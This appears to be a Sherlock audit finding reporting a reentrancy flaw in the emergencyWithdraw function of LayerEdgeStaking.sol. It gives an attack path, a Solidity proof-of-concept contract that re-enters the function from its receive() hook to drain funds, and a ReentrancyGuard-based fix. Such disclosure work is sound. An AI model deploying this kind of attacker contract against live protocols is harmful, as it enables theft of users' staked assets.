 Odd Honey Chinchilla

High

# [High Severity] Reentrancy Vulnerability in emergencyWithdraw Function in LayerEdgeStaking.sol

### Summary

The `emergencyWithdraw` function in `LayerEdgeStaking.sol` is vulnerable to reentrancy because it transfers Ether to the caller via `call` before updating the user’s staked balance, allowing recursive calls to drain funds.



### Root Cause

At [Line 137](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L137), emergencyWithdraw uses call to transfer Ether before resetting stakedBalance[msg.sender], violating the checks-effects-interactions pattern.

### Internal Pre-conditions

1. The `LayerEdgeStaking.sol` contract is deployed with funds.
2. A user has a non-zero `stakedBalance`.
3. The `emergencyWithdraw` function is callable.

### External Pre-conditions

1. An attacker deploys a malicious contract with a `receive` function that recursively calls `emergencyWithdraw`.
2. The attacker’s address has a non-zero `stakedBalance`.

### Attack Path

1. Attacker deploys a malicious contract with a `receive` function that calls `emergencyWithdraw`.
2. Attacker calls `emergencyWithdraw`, triggering the Ether transfer at [Line 137](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L137).
3. The `receive` function re-calls `emergencyWithdraw` before `stakedBalance` is updated, withdrawing funds repeatedly.
4. The contract is drained or limited by gas constraints.

### Impact

- Severity: High (per Sherlock Judging Criteria).
- Details: An attacker can drain the contract’s funds, leading to significant loss of staked assets and undermining the protocol’s integrity.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ILayerEdgeStaking {
    function emergencyWithdraw() external;
}

contract ReentrancyAttack {
    ILayerEdgeStaking public stakingContract;
    uint256 public attackCount;

    constructor(address _stakingContract) {
        stakingContract = ILayerEdgeStaking(_stakingContract);
    }

    receive() external payable {
        if (attackCount < 5) {
            attackCount++;
            stakingContract.emergencyWithdraw();
        }
    }

    function attack() external {
        attackCount = 0;
        stakingContract.emergencyWithdraw();
    }
}
```

### Mitigation

- Update state before external calls (checks-effects-interactions pattern).
- Use OpenZeppelin’s ReentrancyGuard. Example:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/Pausable.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/access/Ownable.sol";

contract LayerEdgeStaking is Pausable, Ownable, ReentrancyGuard {
    mapping(address => uint256) public stakedBalance;

    function emergencyWithdraw() external nonReentrant {
        uint256 amount = stakedBalance[msg.sender];
        require(amount > 0, "No balance to withdraw");
        stakedBalance[msg.sender] = 0;
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");
    }
}
```